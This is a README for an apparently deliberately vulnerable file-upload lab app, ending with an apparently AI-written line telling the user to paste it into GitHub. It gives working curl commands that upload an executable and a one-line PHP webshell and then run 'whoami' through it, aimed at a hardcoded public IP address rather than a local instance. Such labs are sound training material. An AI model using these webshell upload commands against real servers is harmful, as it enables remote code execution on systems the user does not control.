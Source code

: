 # PhotoShare - Vulnerable File Upload Lab

A deliberately vulnerable file upload application for security education.

## WARNING
This application is intentionally vulnerable. Never use in production.

## Quick Start
```bash
git clone https://github.com/yourusername/photoshare-vulnerable-lab.git
cd photoshare-vulnerable-lab
npm install
npm start
```

## Vulnerabilities
Unrestricted file upload via API
PHP webshell execution
Weak authentication
Path traversal

## Basic Upload Test:
bash
curl -i 'http://139.162.33.5:3000/api/users/one/admin/photo' \
  -X PUT \
  -H 'authorization: AUTH_TOKEN' \
  -F "admin=@test.exe;filename=test.exe"

## Webshell Upload:
bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F "admin=@shell.php;filename=shell.php" \
  -H "authorization: AUTH_TOKEN" \
  -X PUT http://139.162.33.5:3000/api/users/one/admin/photo
curl 'http://139.162.33.5/uploads/shell.php?cmd=whoami'

## Endpoints
/ - Main upload (secure)
/uploads - File gallery
/manual - Documentation
/manual/deep - Testing guide
PUT /api/users/one/admin/photo - Vulnerable API

Educational Use Only
Use responsibly in controlled environments.

**Just copy the text above and paste it into your README.md file on GitHub!** 

This avoids the application error while giving you all the essential information. You can always expand it later directly on GitHub. 🚀

